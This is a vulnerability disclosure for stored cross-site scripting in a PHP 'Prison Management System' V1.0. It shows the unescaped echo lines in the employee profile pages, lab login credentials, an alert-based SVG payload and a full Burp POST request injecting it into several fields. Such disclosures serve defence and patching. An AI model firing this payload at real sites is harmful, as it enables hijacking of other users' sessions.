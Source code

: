 # Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/edit-profile.php、/Employee/profile.php
```

The parameter `txtfullname` 、`txtdob` 、`txtaddress`、`txtqualification`、`cmddept`、`cmdemployeetype`、`txtappointment`are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/edit-profile.php

# txtfullname
150 <input type="text" size="77" name="txtfullname" value="<?php echo $row['fullname'];   ?>" class="form-control" required="">

# txtdob
168 <input type="text" size="77" name="txtdob" value="<?php echo $row['dob'];   ?>" class="form-control">

# txtaddress
173 <input type="text" size="77" name="txtaddress" value="<?php echo $row['address'];   ?>" class="form-control">

# txtqualification
177 <input type="text" size="77" name="txtqualification" value="<?php echo $row['qualification'];   ?>" class="form-control">

# cmddept
180 <select name="cmddept" id="cmddept" class="form-control" required="">
181 <option value="<?php echo $row['dept'];   ?>"><?php echo $row['dept'];   ?></option>
182 <option value="Security">Security</option>
183 <option value="Bursary">Bursary</option>
184 <option value="Student Affairs">Student Affairs</option>
185 <option value="Clinic">Clinic</option>
186 <option value="ICT">ICT</option>
187 <option value="Admin">Admin</option>
188 <option value="Science & Technology">Science & Technology</option>
189 <option value="Management Technolgy">Management Technolgy</option>
190 <option value="Engineering Technology">Engineering Technology</option>
191 </select>

# cmdemployeetype
195 <select name="cmdemployeetype" id="cmdemployeetype" class="form-control" required="">
196 <option value="<?php echo $row['employee_type'];   ?>"><?php echo $row['employee_type'];   ?></option>
197 <option value="Academic">Academic</option>
198 <option value="Non-Academic">Non-Academic</option>
199 </select>

# txtappointment
203 <input type="text" size="77" name="txtappointment" value="<?php echo $row['date_appointment'];   ?>" class="form-control">
```

```php
# /Employee/profile.php

# txtfullname
134 <strong>Fullname :</strong> <?php echo $rowaccess['fullname'];?> <br>

# txtdob
161 <strong>Date of Birth :</strong> <?php echo $rowaccess['dob'];?>  <br>

# txtaddress
184 <strong>Address :</strong> <?php echo $rowaccess['address'];?>  <br>

# txtqualification
192 <strong>Qualification :</strong> <?php echo $rowaccess['qualification'];?>  <br>

# cmddept
200 <strong>Department :</strong> <?php echo $rowaccess['dept'];?>  <br>

# cmdemployeetype
217 <strong>Employee Type :</strong> <?php echo $rowaccess['employee_type'];?>  <br>

# txtappointment
208 <strong>Date Appointment :</strong> <?php echo $rowaccess['date_appointment'];?>  <br>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert``>
```

Burp Request:

```
POST /Employee/edit-profile.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 317
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

txtfullname=<svg/onload=alert`1`>&cmdsex=less_10&txtphone=less_12&txtdob=<svg/onload=alert`2`>&txtaddress=<svg/onload=alert`3`>&txtqualification=<svg/onload=alert`4`>&cmddept=<svg/onload=alert`5`>&cmdemployeetype=<svg/onload=alert`6`>&txtappointment=<svg/onload=alert``>&txtbasic_salary=num&txtgross_pay=num&btnedit=1
```

### Screenshot

![image-20240505125258930](./screenshot/image-20240505125258930.png)

![image-20240505125406779](./screenshot/image-20240505125406779.png)

![image-20240505125352394](./screenshot/image-20240505125352394.png)

![image-20240505125439824](./screenshot/image-20240505125439824.png)

![image-20240505125453349](./screenshot/image-20240505125453349.png)

![image-20240505125237125](./screenshot/image-20240505125237125.png)

![image-20240505125511815](./screenshot/image-20240505125511815.png)
<<<<<<< HEAD

=======
>>>>>>> 83bbb05f0bf2b9041863225635e09becd55493cd

